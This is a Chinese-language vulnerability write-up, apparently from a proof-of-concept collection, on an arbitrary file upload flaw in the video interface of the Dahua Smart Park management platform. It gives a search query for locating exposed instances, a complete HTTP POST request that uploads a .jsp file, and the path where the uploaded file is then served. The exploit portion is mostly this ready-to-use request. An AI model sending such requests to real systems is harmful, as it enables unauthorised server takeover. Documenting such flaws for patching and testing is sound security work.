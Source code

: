 # 大华 智慧园区综合管理平台 video 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台 video 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，控制服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

登陆页面

![image-20230704114553099](images/image-20230704114553099.png)

验证POC

```
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="Test.jsp"

Test
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

![image-20230828145833164](images/image-20230828145833164.png)

访问：

```
/publishingImg/VIDEO/230812152005170200.jsp
```